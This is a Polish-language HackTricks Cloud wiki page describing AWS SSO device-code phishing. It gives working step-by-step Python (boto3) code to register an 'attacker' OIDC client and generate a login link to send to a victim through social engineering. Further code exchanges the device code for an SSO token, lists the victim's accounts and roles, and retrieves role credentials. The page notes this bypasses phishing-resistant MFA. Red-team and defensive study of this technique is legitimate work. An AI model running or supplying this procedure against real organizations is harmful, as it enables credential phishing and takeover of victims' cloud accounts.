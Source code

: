 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Naucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## AWS Device Code Phishing

Początkowo zaproponowane w [**tym wpisie na blogu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), możliwe jest wysłanie **linku** do użytkownika korzystającego z AWS SSO, który jeśli **użytkownik zaakceptuje**, umożliwi atakującemu uzyskanie **tokenu do podszywania się pod użytkownika** i uzyskanie dostępu do wszystkich ról, do których użytkownik ma dostęp w **Identity Center**.

Aby przeprowadzić ten atak, wymagania są następujące:

* Ofiara musi korzystać z **Identity Center**
* Atakujący musi znać **subdomenę** używaną przez ofiarę `<victimsub>.awsapps.com/start`

Tylko z powyższymi informacjami, **atakujący będzie mógł wysłać link do użytkownika**, który jeśli **zostanie zaakceptowany**, przyzna **atakującemu dostęp do konta użytkownika AWS**.

### Atak

1. **Znajdowanie subdomeny**

Pierwszym krokiem atakującego jest ustalenie subdomeny, której używa firma ofiary w swoim Identity Center. Można to zrobić za pomocą **OSINT** lub **zgadywania + BF**, ponieważ większość firm będzie używać swojej nazwy lub jej wariacji.

Z tą informacją możliwe jest uzyskanie regionu, w którym skonfigurowano Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Wygeneruj link dla ofiary i wyślij go**

Uruchom poniższy kod, aby wygenerować link logowania AWS SSO, dzięki któremu ofiara może się uwierzytelnić.\
Dla demonstracji uruchom ten kod w konsoli python i nie wychodź z niej, ponieważ później będziesz potrzebować niektórych obiektów, aby uzyskać token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Wyślij wygenerowany link do ofiary, używając swoich niesamowitych umiejętności inżynierii społecznej!

3. **Poczekaj, aż ofiara zaakceptuje**

Jeśli ofiara była **już zalogowana w AWS**, będzie musiała tylko zaakceptować nadanie uprawnień, jeśli nie była, będzie musiała **zalogować się, a następnie zaakceptować nadanie uprawnień**.\
Tak wygląda obecnie ten prompt:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Uzyskaj token dostępu SSO**

Jeśli ofiara zaakceptowała prompt, uruchom ten kod, aby **wygenerować token SSO, podszywając się pod użytkownika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Token dostępu SSO jest **ważny przez 8h**.

5. **Podszyj się pod użytkownika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Fajnie jest wiedzieć, że poprzedni atak **działa nawet, jeśli używane jest "niephishowalne MFA" (webAuth)**. Dzieje się tak, ponieważ poprzedni **workflow nigdy nie opuszcza używanej domeny OAuth**. W przeciwieństwie do innych ataków phishingowych, gdzie użytkownik musi zastąpić domenę logowania, w tym przypadku workflow kodu urządzenia jest przygotowany tak, że **kod jest znany przez urządzenie** i użytkownik może się zalogować nawet na innym urządzeniu. Jeśli zaakceptuje monit, urządzenie, tylko przez **znajomość początkowego kodu**, będzie w stanie **pobrać poświadczenia** dla użytkownika.

Więcej informacji na ten temat znajdziesz w [**tym poście**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Ucz się i ćwicz hakowanie AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz hakowanie GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) albo **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
